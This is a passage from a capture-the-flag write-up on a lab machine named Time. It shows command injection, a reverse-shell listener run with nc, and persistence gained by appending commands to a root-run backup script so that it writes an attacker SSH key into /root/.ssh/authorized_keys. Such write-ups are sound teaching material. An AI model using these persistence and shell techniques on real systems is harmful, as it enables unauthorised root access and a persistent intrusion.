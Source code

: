 
I’ll look at getting a better shell in Beyond Root.

## Beyond Root

### Writing Via RCE

When testing RCE for the initial foothold, I went with a . I was already confident that it was starting to work, since the SQL script was being requested from my supplied URL, and that seemed like a solid way to test RCE and connectivity back. But as I started to write in my notes that I couldn’t write a file and see it, I wondered - is that true? There’s a webserver after all. Perhaps I could write a webshell (not really sure why I need once since I already have RCE and a reverse shell, but what if a firewall were blocking all outbound?).`ping`

I tried the payload from the site (), but nothing showed up at the web root or any folders I knew about. I cheated a bit, since I had a shell already, and checked.`id > exploited.txt`

    pericles@time:/var/www$ find html/ -name exploited.txt
    

It returned nothing. I modified the payload slightly to . On re-run, that worked:`id > /tmp/exploited.txt`

    pericles@time:/var/www$ cat /tmp/exploited.txt 
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
    

So why couldn’t I write to the web root? Well, permissions:

    pericles@time:/var/www$ find html/ -writable
    pericles@time:/var/www$ ls -l               
    total 4
    dr-xr-xr-x 7 pericles pericles 4096 Oct 23 06:44 html
    

There are no folders in that are writable by the pericles user (which is where the RCE happens).`html`

### Utilizing Short-Lived Shells

The shell that came back dies in about 10 seconds, which is enough time to grab . But of course I wanted a stable shell. The easy way to do this is just to have script write my SSH public key into :`root.txt``authorized_keys`

    pericles@time:/var/www/html$ echo -e '\nmkdir -p /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys'  >> /usr/bin/timer_backup.sh
    

This will create the directory if it doesn’t exist, and then write my [tiny ed25519 public key](https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54) into the file.`/root/.ssh``authorized_keys`

Still, cases come up where a short lived shell is all you can get. It’s interesting to see how to script commands to run on the shell. I’ll just them into the listener:`echo``nc`

    oxdf@parrot$ echo 'mkdir -p /root/.ssh && echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58Q
    vP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys' | sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58360
    bash: cannot set terminal process group (67254): Inappropriate ioctl for device
    bash: no job control in this shell
    <U19G3d nobody@nothing" > /root/.ssh/authorized_keys
    root@time:/# 
    ^C
    